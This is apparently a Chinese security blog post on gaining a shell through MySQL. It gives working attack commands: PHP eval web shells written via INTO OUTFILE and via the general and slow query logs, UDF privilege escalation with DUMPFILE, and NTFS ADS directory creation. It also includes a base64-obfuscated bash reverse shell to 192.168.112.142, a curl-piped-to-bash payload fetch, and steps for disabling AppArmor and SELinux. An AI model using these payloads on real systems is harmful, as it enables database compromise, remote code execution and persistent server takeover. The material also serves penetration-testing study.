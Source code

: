 ```yaml
---
title: 通过mysql获取shell的几种方法
date: 2021-06-19 9:30:36
tags:
---
```


## 0x01 利用outfile函数写shell

**条件**

1.当前数据库用户为root权限

2.secure-file-priv为空（或包含web目录）

3.已知网站的绝对路径且具有写的权限

**利用步骤**

```mysql
select '<?php  @eval($_POST[1]);?>' into outfile '/var/WWW/shell.php';
#当然也可以insert到表后再select 表 into outfile到php文件
```

## 0x02 利用dumpfile函数进行udf提权

**条件**

1.root权限执行的Mysql

2.secure_file_priv为空（或包含udf目录）

3.udf目录具有写权限

**利用步骤**

从sqlmap或msf选择适合目标系统的udf脚本，保存解码并hex后的文件内容（解码步骤参考[小知识点](#如何获取该udf.dll(.so)文件的16进制值(hex)))）

```sql
mysql> show variables like '%plugin%'; #查看udf允许的目录
+-------------------------------+------------------------+
| Variable_name                 | Value                  |
+-------------------------------+------------------------+
| default_authentication_plugin | mysql_native_password  |
| plugin_dir                    | /usr/lib/mysql/plugin/ |
+-------------------------------+------------------------+
mysql> select unhex('udf.so hex code') into dumpfile '/usr/lib/mysql/plugin/shell.so'; #windows为dll，linux为so文件
Query OK, 1 row affected (0.01 sec)
mysql> create function sys_exec returns string soname 'shell.so'; #这里的so文件不能加绝对路径
Query OK, 0 rows affected (0.00 sec)
mysql> use mysql;
mysql> select * from func; #查看已创建的用户自定义函数
+----------+-----+------------+----------+
| name     | ret | dl         | type     |
+----------+-----+------------+----------+
| sys_exec |   0 | shell.so   | function |
+----------+-----+------------+----------+
mysql> select sys_exec('whoami'); #返回NULL说明执行成功了，这里使用的sqlmap自带的udf脚本是不带回显的
+--------------------+
| sys_exec('whoami') |
+--------------------+
| NULL               |
+--------------------+
```

当lib/plugin目录不存在时可以使用NTFS ADS流创建lib、plugin文件夹

```mysql
select @@basedir;   //查找mysql的目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION';    //使用NTFS ADS流创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; //利用NTFS ADS再次创建plugin目录
执行成功以后再进行导出即可。
```

**udf实验过程遇到的坑点**

1. 受到secure_file_priv的目录限制，该默认目录与udf插件的目录不一样，导致dumpfile失败

   ![image-20210131221223977](通过mysql获取shell的几种方法/image-20210131221223977.png)

   通过修改/etc/mysql/mysql.conf.d/mysqld.cnf文件secure_file_priv为空

2. 没有写的权限

   ![image-20210131221824261](通过mysql获取shell的几种方法/image-20210131221824261.png)

   unbutu通过`service apparmor teardown`关闭apparmor安全模式，并设置/usr/lib/mysql/plugin权限为777

   ![image-20210131223336103](通过mysql获取shell的几种方法/image-20210131223336103.png)

若是centos ，修改`/etc/sysconfig/selinux`文件`SELINUX=disabled`来禁用安全模式

3.将绝对路径导致so文件找不到，去掉路径即可

![image-20210620172930780](通过mysql获取shell的几种方法/image-20210620172930780.png)

## 0x03 开启全局日志写入shell

前两个利用方法都受到secure_file_priv的限制，我们可以通过全局日志或慢查询日志写shell绕过该限制

**条件**

1.root权限执行的Mysql

2.网站的绝对路径且具有写入权限

**利用步骤**

```sql
show variables like '%general%';
set global general_log = on; #开启全局配置
set global general_log_file = '/var/WWW/shell.php'; #将日志文件设置成服务器下的木马文件
select '<?php  @eval($_POST[1]);?>'; #执行sql语句，mysql会将我没执行的语句记录到日志文件(上一步修改后的文件)中
```

## 0x04 开启慢查询日志写入shell

**条件**

1.root权限执行的Mysql

2.网站的绝对路径且具有写入权限

**利用步骤**

```mysql
show variables like '%slow_query_log%'; #查看慢查询日志开启情况
set global slow_query_log=1; #开启慢查询日志
set global slow_query_log_file='/var/WWW/shell.php'; #修改日志文件存储的绝对路径
select '<?php @eval($_POST[1]);?>' or sleep(11); #向日志文件中写入shell
```

## 0x05 利用system函数反弹shell

mysql在5.7版本之后自带有个system函数，可以直接执行命令

![image-20210620180803889](通过mysql获取shell的几种方法/image-20210620180803889.png)

**条件**

1.mysql版本大于5.7

**利用步骤**

```mysql
#base64编码后反弹
system bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMi4xNDIvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}';
#利用curl访问攻击者web服务器，shell.html内容为bash -i >& /dev/tcp/ip/port 0>&1
system curl 192.168.112.142/shell.html|bash;
......
```

## 0x06 小知识点

### **secure_file_priv在不同mysql版本的区别**

mysql5.5之前secure_file_priv默认是空，这个情况可以让任何绝对路径写文件，

mysql5.5-5.7，secure_file_priv默认是NULL，限制mysqld 不允许导入 | 导出，

![image-20210131155508820](通过mysql获取shell的几种方法/image-20210131155508820.png)

mysql版本5.7之后，secure_file_priv是默认目录,限制mysqld 的导入 | 导出 只能发生在限定目录下。

![image-20210131152927985](通过mysql获取shell的几种方法/image-20210131152927985.png)

### **如何获取该udf.dll(.so)文件的16进制值(hex)**

我们可以本地搭建mysql环境 找个可以用的udf.dll文件 执行下面操作

```sql
mysql> select hex(load_file ('c:/windows/temp/xxoo.dll')) into outfile 'c:/windows/temp/xxoo.txt';
```

或者使用xxd命令

```shell
cat udf.so|xxd -ps
```

### **sqlmap的udf.dll(.so)是通过异或编码的，使用之前需要解码**

```powershell
#解码工具为sqlmap自带的SQLmap\extra\cloak\cloak.py
python cloak.py -d -i G:\tools\SQLmap\udf\mysql\windows\64\lib_mysqludf_sys.dll_
python cloak.py -d -i G:\tools\SQLmap\udf\mysql\linux\64\lib_mysqludf_sys.so_
```

![image-20210131161956660](通过mysql获取shell的几种方法/image-20210131161956660.png)

### **dumpfile和outfile有什么不一样**

outfile适合导库，会在行末尾会写入新行并转义，因此不能写入二进制可执行文件。

into dumpfile 就能导出 一个完整能执行的2进制文件。

## 参考

[udf提权](https://www.cnblogs.com/sijidou/p/10522972.html)

[写入mysql_通过MySQL写入webshell的几种方式](https://blog.csdn.net/weixin_39872872/article/details/112589789)

[mysql dumpfile与outfile函数的区别](https://www.cnblogs.com/milantgh/p/5444398.html)

